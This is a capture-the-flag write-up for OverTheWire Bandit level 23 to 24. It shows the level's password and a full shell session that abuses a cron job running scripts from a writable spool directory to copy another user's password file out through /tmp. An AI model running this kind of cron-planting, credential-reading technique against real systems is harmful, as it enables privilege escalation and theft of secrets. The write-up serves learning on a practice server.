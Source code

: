 # Retos Bandit

# Level 23 → Level 24

## Objetivo
A program is running automatically at regular intervals from **cron**, the time-based job scheduler. Look in **/etc/cron.d/** for the configuration and see what command is being executed.

**NOTE:** This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!

**NOTE 2:** Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…

## Datos de acceso al nivel
- **Usuario:** bandit23
- **Contraseña:** QYw0Y2aiA672PsMmh9puTQuhoz8SyR2G

## Solución
```bash
bandit23@bandit:~$ ls /etc/cron.d
cronjob_bandit15_root cronjob_bandit22 cronjob_bandit24 e2scrub_all sysstat
cronjob_bandit17_root cronjob_bandit23 cronjob_bandit25_root otw-tmp-dir
bandit23@bandit:~$ cat /etc/cron.d/cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
bandit23@bandit:~$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash
myname=$(whoami)
cd /var/spool/$myname/foo
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
if [ "$i" != "." -a "$i" != ".." ];
then
echo "Handling $i"
owner="$(stat --format "%U" ./$i)"
if [ "${owner}" = "bandit23" ]; then
timeout -s 9 60 ./$i
fi
rm -f ./$i
fi
done
bandit23@bandit:~$ 
bandit23@bandit:~$ mkdir /tmp/kd
bandit23@bandit:~$ cd /tmp/kd
bandit23@bandit:/tmp/kd$ echo "cat /etc/bandit_pass/bandit24 >
/tmp/kd/password" > script.sh
bandit23@bandit:/tmp/kd$ cat script.sh
cat /etc/bandit_pass/bandit24 > /tmp/kd/password
bandit23@bandit:/tmp/kd$ chmod +x script.sh
bandit23@bandit:/tmp/kd$ touch password
bandit23@bandit:/tmp/kd$ chmod 666 password
bandit23@bandit:/tmp/kd$ ls –la
total 92
drwxrwxr-x 2 bandit23 bandit23 4096 Sep 4 01:51 .
drwxrwx-wt 1957 root root 81920 Sep 4 01:51 ..
-rw-rw-rw- 1 bandit23 bandit23 0 Sep 4 01:51 password
-rwxrwxr-x 1 bandit23 bandit23 49 Sep 4 01:50 script.sh
bandit23@bandit:/tmp/kd$ cp script.sh /var/spool/bandit24/foo
bandit23@bandit:/tmp/kd$ ls -la
total 92
drwxrwxr-x 2 bandit23 bandit23 4096 Sep 4 01:51 .
drwxrwx-wt 1957 root root 81920 Sep 4 01:53 ..
-rw-rw-rw- 1 bandit23 bandit23 0 Sep 4 01:51 password
-rwxrwxr-x 1 bandit23 bandit23 49 Sep 4 01:50 script.sh
bandit23@bandit:/tmp/kd$ date
Sun Sep 4 01:54:12 AM UTC 2022
bandit23@bandit:/tmp/kd$ ls -la
total 96
drwxrwxr-x 2 bandit23 bandit23 4096 Sep 4 01:51 .
drwxrwx-wt 1957 root root 81920 Sep 4 01:53 ..
-rw-rw-rw- 1 bandit23 bandit23 33 Sep 4 01:54 password
-rwxrwxr-x 1 bandit23 bandit23 49 Sep 4 01:50 script.sh
bandit23@bandit:/tmp/kd$ cat password
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar
bandit23@bandit:/tmp/kd$
```
## Notas adicionales
| Comando | Descripcion |
|---------|-------------|
|  |  |

## Referencias
- []()